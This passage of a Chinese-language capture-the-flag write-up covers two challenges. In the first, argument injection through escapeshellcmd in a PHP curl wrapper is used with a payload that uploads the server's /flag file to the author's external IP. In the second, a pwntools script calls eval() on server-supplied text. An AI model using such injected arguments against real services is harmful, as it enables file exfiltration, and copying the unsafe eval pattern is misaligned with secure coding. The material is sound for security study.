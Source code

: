 审计附件代码可以发现指令执行。

```javascript
public function __construct($url)
{
    $this->command = "curl -sL " . escapeshellcmd($url);
}

public function exec()
{
    exec($this->command, $output);
    return $output;
}
```

escapeshellcmd 并不对 @ 字符和配对的引号进行转义，并且仍然可以拼接指令的参数。
>反斜线（\）会在以下字符之前插入： &#;`|*?~<>^()[]{}$\, \x0A 和 \xFF。 ' 和 " 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 % 和 ! 字符都会被空格代替。

构造出如下载荷。

```payload
ip= -F 'file=@/flag' 8.136.8.210:3255
```

监听服务器端口后发送载荷即可得出 flag。

```flag
CHTB{f1le_r3trieval_4s_a_s3rv1ce}
```

### Alien Camp

简单的交互计算题，写脚本如下。

```python
from pwn import *
connection = remote("46.101.54.143", 31170)
connection.sendline("1")
connection.recvuntil("Here is a little help:\n\n")
model = connection.recvline()
model = model[:-2]
model = model.split(b' ')
items = []
while 0 != len(model):
    key = model.pop(0)
    model.pop(0)
    value = model.pop(0)
    items.append((key, int(value)))

connection.sendline("2")
for x in range(500):
    connection.recvuntil("Question {}:\n\n".format(x + 1))
    question = connection.recvline()
    question = question[:-6]
    for (key, value) in items:
        question = question.replace(key, str(value).encode())
    question = question.decode()
    answer = str(eval(question))
    connection.sendline(answer)
    print("[*] Calculating {} = {} round {}".format(question, answer, x + 1))
for y in range(10):
    content = connection.recvline()
    print(content)
connection.close()
```

